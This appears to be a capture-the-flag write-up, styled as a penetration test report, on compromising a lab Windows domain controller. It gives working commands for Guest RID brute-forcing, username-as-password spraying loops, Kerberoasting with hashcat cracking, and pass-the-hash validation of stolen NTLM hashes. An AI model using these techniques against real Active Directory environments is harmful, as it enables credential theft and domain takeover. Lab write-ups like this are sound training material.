






## Soupedecode 01

### Executive Summary

A penetration test was conducted against the target host, identified as a Windows Server 2022 Domain Controller (DC01) for the SOUPEDECODE.LOCAL domain. The assessment successfully identified multiple attack vectors, ultimately leading to full domain compromise and the retrieval of both user and root flags.

### Initial Reconnaissance

The target was scanned using `nmap` with service detection, OS fingerprinting, and vulnerability scripting enabled:
```bash
$ sudo nmap -sS -p- -T4 --script=vuln -sV -O <target_ip>
...
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-01-26 07:00:26Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: SOUPEDECODE.LOCAL, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
|_ssl-ccs-injection: No reply from server (TIMEOUT)
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: SOUPEDECODE.LOCAL, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
|_ssl-ccs-injection: No reply from server (TIMEOUT)
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49717/tcp open  msrpc         Microsoft Windows RPC
49789/tcp open  msrpc         Microsoft Windows RPC
...
Running (JUST GUESSING): Microsoft Windows 2022 (89%)
OS CPE: cpe:/o:microsoft:windows_server_2022
Aggressive OS guesses: Microsoft Windows Server 2022 (89%)
...
```
**Key Findings:**
-   **Critical Services Identified:**
   -   Ports 135/593/445: Microsoft RPC and SMB services (potential vectors for PetitPotam, NTLM relay, SMB exploitation);
    -   Port 389: LDAP service (Active Directory enumeration);
    -   Port 3389: RDP (lateral movement potential);
    -   Port 88: Kerberos (authentication service).
-   **Operating System:** Windows Server 2022 (89% confidence).
-   **Domain:** SOUPEDECODE.LOCAL.

### Initial Reconnaissance & Enumeration

Initial attempts using anonymous and Guest access yielded limited results:
```bash
$ nxc smb <target_ip> -u '' -p ''

SMB         <target_ip>    445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         <target_ip>    445    DC01             [-] SOUPEDECODE.LOCAL\: STATUS_ACCESS_DENIED
   ----------------------------------------------------------------------------------------------                                                                                                                    
$ nxc smb <target_ip> -u 'Guest' -p ''

SMB         <target_ip>    445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         <target_ip>    445    DC01             [+] SOUPEDECODE.LOCAL\Guest:
  ----------------------------------------------------------------------------------------------                                                                                                                        
$ nxc smb <target_ip> -u 'Guest' -p '' --shares

SMB         <target_ip>    445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         <target_ip>    445    DC01             [+] SOUPEDECODE.LOCAL\Guest:
SMB         <target_ip>    445    DC01             [*] Enumerated shares
SMB         <target_ip>    445    DC01             Share           Permissions     Remark
SMB         <target_ip>    445    DC01             -----           -----------     ------
SMB         <target_ip>    445    DC01             ADMIN$                          Remote Admin
SMB         <target_ip>    445    DC01             backup
SMB         <target_ip>    445    DC01             C$                              Default share
SMB         <target_ip>    445    DC01             IPC$            READ            Remote IPC
SMB         <target_ip>    445    DC01             NETLOGON                        Logon server share
SMB         <target_ip>    445    DC01             SYSVOL                          Logon server share
SMB         <target_ip>    445    DC01             Users
```
-   **Non-default shares discovered:**  `Users` and `backup`;
-   **Access level:** READ permission only on IPC$ share.

### Credential Access

`RDP` access did nothing using `Guest` user, so valid user credentials (non-guest) are required for further movement. Luckily, `netexec` tool can give a list of the domain users with `Guest` permissions using RID brute-forcing:
```bash
$ nxc smb <target_ip> -u 'Guest' -p '' --rid-brute

SMB         <target_ip>    445    DC01             498: SOUPEDECODE\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         <target_ip>    445    DC01             500: SOUPEDECODE\Administrator (SidTypeUser)
SMB         <target_ip>    445    DC01             501: SOUPEDECODE\Guest (SidTypeUser)
...
```
Extracted usernames were processed for subsequent attacks:
```bash
$ cat nxc_users.txt | awk -F' ' '{print $6}' > users_dom.txt
```
Initial `Password Spraying` with common wordlists proved unsuccessful. 
Alternative attack methods were explored:
-   **AS-REP Roasting**: No vulnerable accounts identified
-   **Known Exploits**: `PrintNightmare` and `Zerologon` tested without success
-   **PetitPotam**: Successfully triggered but captured NTLMv2 responses could not be cracked with available wordlists. As it was just one DC in a network, the `Relay` attacks had no point.



The description field for the current task gives a huge clue: it contains a **"performing password spraying"** string. The most common passwords do not give an access, what else could be done? The password could be blank, the same as a username or the username in a different form.
For this purpose it is needed a file that does not contain a domain prefix:
```bash
$ cat users_dom.txt | cut -d'\' -f2 > users_without_dom.txt
```
Revisiting `Password Spraying` with the "username as password" strategy proved successful:
```bash
for user in $(cat users_without_dom.txt); do
  nxc smb <target_ip> -u "$user" -p "$user" --continue-on-success | grep "+"
done
```



As a result, one user was found after a minute of waiting. It opens the opportunity to peform a majority of attacks with a standart user credentials, like `noPac` or more simple like `Kerberoasting`.

### Discovery

The gathered user credentials gave access to the non-default share, where can be found the `user.txt` flag:
```bash
$ nxc smb <target_ip> -u <user_for_password_spraying> -p <user's_password_for_password_spraying> --shares

SMB         <target_ip>   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         <target_ip>   445    DC01             [+] SOUPEDECODE.LOCAL\<user_for_password_spraying>:<user's_password_for_password_spraying>
SMB         <target_ip>   445    DC01             [*] Enumerated shares
SMB         <target_ip>   445    DC01             Share           Permissions     Remark
SMB         <target_ip>   445    DC01             -----           -----------     ------
SMB         <target_ip>   445    DC01             ADMIN$                          Remote Admin
SMB         <target_ip>   445    DC01             backup
SMB         <target_ip>   445    DC01             C$                              Default share
SMB         <target_ip>   445    DC01             IPC$            READ            Remote IPC
SMB         <target_ip>   445    DC01             NETLOGON        READ            Logon server share
SMB         <target_ip>   445    DC01             SYSVOL          READ            Logon server share
SMB         <target_ip>   445    DC01             Users           READ
...
```
No file, that can give an opportunity for lateral movement or privilege escalation, was found.

### Lateral Movement

Next, `Kerberoasting` was performed:
```bash
$ impacket-GetUserSPNs soupedecode.local/<user_for_password_spraying>:<user's_password_for_password_spraying> -dc-ip <target_ip> -request
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies

ServicePrincipalName    Name            MemberOf  PasswordLastSet             LastLogon  Delegation
----------------------  --------------  --------  --------------------------  ---------  ----------
FTP/FileServer          file_svc                  2024-06-17 20:32:23.726085  <never>
FW/ProxyServer          firewall_svc              2024-06-17 20:28:32.710125  <never>
HTTP/BackupServer       backup_svc                2024-06-17 20:28:49.476511  <never>
HTTP/WebServer          web_svc                   2024-06-17 20:29:04.569417  <never>
HTTPS/MonitoringServer  monitoring_svc            2024-06-17 20:29:18.511871  <never>
...
[-] CCache file is not found. Skipping...
$krb5tgs$23$*file_svc$SOUPEDECODE.LOCAL$soupedecode.local/file_svc*$17fae9cf1d6d8faccd40f63cdb52b1d8$e37ee...c5bbc
...
```
Service Principal Name (SPNs) was retrieved, with TGS ticket captured for offline cracking:
```bash
$ hashcat --identify services.txt
...
      # | Name                                                       | Category
  ======+============================================================+======================================
  13100 | Kerberos 5, etype 23, TGS-REP                              | Network Protocol
  --------------------------------------------------------------------------------
$ hashcat -a 0 -m 13100 services.txt /usr/share/wordlists/rockyou.txt
...
```



### Credential Access

As the `hashcat` cracked the `TGS-REP` and revealing that the service account had `READ` permission on the `backup` share. This share was checked and the backup file was found:



```bash
smbclient //<target_ip>/backup -U 'SOUPEDECODE\file_svc'
Password for [SOUPEDECODE\file_svc]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Jun 17 20:41:17 2024
  ..                                 DR        0  Fri Jul 25 20:51:20 2025
  backup_extract.txt                  A      892  Mon Jun 17 11:41:05 2024
```
The file was downloaded utilizing the `get backup_extract.txt` command. `backup_extract.txt` contained the machine account usernames, RIDs and passwords in LM:NT format.


### Privilege Escalation & Lateral Movement

The bash script below was used to validate these accounts and check their permissions on the DC01 host:
```bash
for user in $(cat backup_extract.txt); do
   username=$(echo "$user" | awk -F':' '{print $1}')
   passwordHash=$(echo "$user" | awk -F':' '{print $3":"$4}')
   nxc smb <target_ip> -u "$username" -H "$passwordHash" --continue-on-success
done
```



One account was successfully validated and, as indicated by the `(Pwn3d!)` string, it had domain administrator privileges.

### Impact & Collection

With the domain now compromised, the final step was to retrieve the `root.txt` flag (along with the `user.txt` flag if not already obtained).



